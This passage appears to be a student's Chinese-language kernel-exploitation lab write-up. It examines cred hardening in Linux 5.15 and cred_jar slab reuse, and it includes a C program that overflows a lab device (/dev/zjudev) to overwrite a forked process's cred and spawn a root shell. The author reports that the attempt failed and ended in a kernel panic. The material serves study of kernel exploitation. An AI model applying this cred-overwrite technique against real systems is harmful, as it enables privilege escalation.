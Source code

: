 对比两个版本的代码，我认为可能性比较大的原因是`cred`结构体在 v5.15 启用了 v4.4.70 尚未使用的`__randomize_layout`，并且在更多的地方检查了`cred`的`magic`。因而我们更加难以将`magic`置位，同时也会在更多的地方被检查和报告出来。

与同学交流之后，同学提醒我`prepare_kernel_cred`使用了`cred_jar`：
![image.png](./assets/1653843779066-bb7a6c1f-3264-43c5-8e05-7e456e9d9bc7.png)
我们查看`cred_jar`的使用，找到了在`put_cred_rcu`中时候会调用`kmem_cache_free(cred_jar, cred)`。这个函数会在`__put_cred`，即销毁`cred`的时候被调用。
![image.png](./assets/1653923657374-5121b404-727b-49af-aba0-66c1762e42c7.png)
查看`kmem_cache_free`的源码，发现其中调用了`__cache_free`函数：
![image.png](./assets/1653923877314-9e115a16-f216-4e2f-a6ad-47de90867005.png)
查看这个函数的源码，从注释中可以看到，这里将对象 release 的时候，会将其加到这个对象的 cache 中。对于我们的例子来说，在释放`cred`的时候，会将释放的结果放在`cred_jar`中：
![image.png](./assets/1653923548309-a2892908-86a7-4bd2-8b8b-482d8bf102fd.png)
因此，事实上在为进程分配`cred`的时候会从`cred_jar`中找空间分给`cred`：
![image.png](./assets/1653843779066-bb7a6c1f-3264-43c5-8e05-7e456e9d9bc7.png)
![image.png](./assets/1653964751005-6e053d29-6879-4dd8-b82c-b97c517ef223.png)
我并没有找到当`cachep`耗尽时会采取的操作；但我编写了如下的代码尝试不断`fork()`而不释放，尝试能否获取 root 权限：
```c
int main() {
	u64 cred[100] = {0, 0, 0}; 
	int timess = 0;
	
	while (1) {
		int dev1 = open("/dev/zjudev", O_RDWR);
		int dev = open("/dev/zjudev", O_RDWR);
				
		timess++;
		
		int offs = (timess % 9) * 4;
		ioctl(dev1, 0x0001, 0xA0 + offs);
		close(dev1);
		
		cred[2] = (timess % 5) ? 0 : 0x43736564;
		
		int id = fork();
		int o = timess % 7 < 3 ? 0 : (timess % 7) * 4;
		write(dev, cred, 28 + o);
		if (id == 0) {
			DEBUG(getuid(), XYX_CYAN);
			DEBUG(getpid(), XYX_CYAN);
			if (!getuid()) {
				printf("[*]welcome root:\n");
				system("/bin/sh");
			} 
		} else {
			DEBUG(getpid(), XYX_GREEN);
			wait(id);
			DEBUG(getpid(), XYX_RED);
		}
	}
	
	return 0;
}
```
这里的`timess`是为了组合之前提到的不同考虑因素设置的。可以看到，这个程序除了成功获取 root 外，都会不断地 fork 并尝试覆写`cred`。但是程序运行到 out of memory 直至 kernel panic 也没有成功：![image.png](./assets/1653965903885-6e41bb2c-ce80-417c-8430-3079ad88aa57.png)
（可以看到，这时 fork 出的进程数已经达到了 0xa00 以上的数目）<br />因此我们猜测，当 cache 耗尽时，可能也不会直接取用空闲空间，而是由 cache 申请一块较大的空间。我们暂时无法得知这块空间的大小，因此我们很难做对应的操作。
